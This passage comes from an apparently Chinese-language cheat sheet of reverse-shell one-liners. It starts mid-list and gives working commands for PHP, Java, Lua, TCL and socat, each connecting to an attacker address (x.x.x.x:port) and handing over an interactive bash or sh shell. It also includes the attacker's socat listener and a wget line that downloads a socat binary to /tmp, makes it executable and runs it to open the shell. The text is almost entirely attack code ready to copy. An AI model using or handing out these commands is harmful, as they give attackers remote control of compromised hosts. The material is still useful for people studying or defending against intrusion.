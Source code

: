 第二种：

```php
php -r '$s=fsockopen("x.x.x.x",port);$proc=proc_open("/bin/bash -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'
```

#### 5、JAVA

```java
public class Revs {
    public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/port;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

#### 6、Lua

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('x.x.x.x','port');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

#### 7、TCL

> 目标主机需要安装TCL工具

```bash
echo 'set s [socket x.x.x.x port];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
```

## 其他方法

### 1、socat

> 该方法需要攻击机和目标主机上有socat程序。

攻击机监听：

```bash
socat file:`tty`,raw,echo=0 tcp-listen:port
```

目标主机执行：

```bash
socat tcp-connect:x.x.x.x:port exec:"bash -li",pty,stderr,setsid,sigint,sane
```

若目标主机上无socat命令，则可以如下：

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat tcp-connect:x.x.x.x:port exec:"bash -li",pty,stderr,setsid,sigint,sane
```
